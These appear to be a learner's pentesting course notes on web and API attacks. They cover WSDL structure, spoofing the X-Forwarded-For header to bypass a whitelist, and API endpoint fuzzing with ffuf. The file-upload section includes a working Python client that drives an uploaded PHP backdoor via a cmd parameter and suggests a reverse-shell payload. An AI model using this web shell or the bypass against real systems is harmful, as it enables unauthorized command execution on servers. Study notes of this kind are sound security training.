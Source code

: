 

### Web Services Description Language (WSDL)

[check here](https://www.tutorialworks.com/wsdl/#:~:text=A%20WSDL%20file%20is%20written%20in%20XML.%20It,to%20send%20a%20request%20to%20a%20web%20service.)

![[Pasted image 20240804173411.png]]

- instruction manual for interacting with a web service.
- defines rules t communicate btw application and web service 
## Structure of a WSDL file

|ELEMENT|WHAT IT DOES|
|---|---|
|`<types>`|Defines the data types (XML elements) that are used by the web service.|
|`<message>`|Defines the messages that can be exchanged with the web service. Each `<message>` contains a `<part>`.|
|`<portType>`|Defines each operation in the web service, and the messages associated with each operation.|
|`<binding>`|Defines exactly how each `operation` will take place over the network (we use SOAP, in the example below).|
|`<service>`|Defines the physical location of the service (e.g. its _endpoint_).|


- bruteforce to find wsdl directory
- blank page brute force for parameters
### Rate Limit Bypass

```php
<?php
$whitelist = array("127.0.0.1", "1.3.3.7");
if(!(in_array($_SERVER['HTTP_X_FORWARDED_FOR'], $whitelist)))
{
    header("HTTP/1.1 401 Unauthorized");
}
else
{
  print("Hello Developer team! As you know, we are working on building a way for users to see website pages in real pages but behind our own Proxies!");
}
```
- set X-FORWARD-HEADER to one in the list of whitelist
- if blacklisted do it accordingly

## ARBITRARY FILE UPLOAD

```shell-session
python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
```


```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```


- ==api end points == [common-api-endpoints-mazen160.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common-api-endpoints-mazen160.txt)

```shell-session
 ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'
```

